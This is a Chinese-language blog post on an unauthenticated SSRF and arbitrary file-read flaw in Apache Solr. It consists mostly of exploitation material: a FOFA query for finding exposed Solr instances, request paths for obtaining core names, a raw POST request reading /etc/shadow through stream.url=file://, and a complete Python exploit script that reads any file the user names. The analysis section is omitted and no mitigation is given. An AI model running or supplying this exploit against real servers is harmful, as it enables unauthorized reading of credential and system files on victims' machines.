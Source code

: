 # Apache Solr SSRF与任意文件读取漏洞




# 前言

Apache Solr是一个开源的搜索服务，使用Java语言开发，基于Lucene的全文搜索服务器。

Apache Solr全版本存在一个SSRF与任意文件读取漏洞，因Apache Solr整体默认安装为未授权，且大部分资产都为未授权，提供众多api接口，支持未授权用户通过config api更改配置文件，攻击面较大。建议相关用户及时采取措施阻止攻击。



# 影响范围

Apache Solr 所有版本





# 漏洞复现

**fofa查询资产关键字：**

```
app="APACHE-Solr"
```



**1.首先访问目标url拼接下面的路径，获取实例对象的名称**

```bash
/solr/admin/cores?indexInfo=false&wt=json
```



![获取实例名称](http://image.xpshuai.cn/solr_instance.png)

如图，可以得到实例对象的名称为`Tourist-guide-Server`





**2.构造路径**

```bash
/solr/".iii."/debug/dump?param=ContentStreams&wt=json
```

其中`iii`就是我们前面得到的实例对象的名称
这里，我们构造之后为下面这个(这个地址作为post请求的地址)：

```bash
/solr/Tourist-guide-Server/debug/dump?param=ContentStreams&wt=json
```



而post数据中的body的内容为：`stream.url=file:///etc/passwd`

即(**发送这个数据包**)：

```bash
POST /solr/Tourist-guide-Server/debug/dump?param=ContentStreams&wt=json HTTP/1.1
Host: IP:PORT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

stream.url=file:///etc/shadow
```



![读取文件](http://image.xpshuai.cn/solr_ok.png)







# 漏洞分析

略





# EXP

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-
import requests
import json
import urllib
import time
import re
def Getins(url):
    try:
        ins=""
        url = url+"solr/admin/cores?indexInfo=false&wt=json"
        response = requests.get(url=url)
        data = str(response.text)
        ins = re.findall(r'\"name\":\"(.+?)\",',data)[0]
        return(ins)
    except IndexError:
        return("")

def Getfile(url,ins,filename):
    try:
        url = url+"solr/"+ins+"/debug/dump?param=ContentStreams&wt=json"
        headers ={
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        payload = str("stream.url=file://"+filename)
        response = requests.post(url=url,headers=headers,data=payload)
        data = str(response.text)
        test = re.findall(r'\"stream\":\"(.+?)\"\}]',data)[0]
        print(test.replace(r"\n","\n"))
    except IndexError:
        print("不能读取此文件")
        

if __name__ == '__main__':
    url = input("请输入测试地址:")
    filename = input("请输入读取的文件路径:")
    ins=Getins(url)
    if(ins == ""):
        print("不存在漏洞")
    else:
        Getfile(url,ins,filename)
```

读取效果：

![exp效果](http://image.xpshuai.cn/solrexp.png)

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/apache-solr-ssrf%E4%B8%8E%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/  

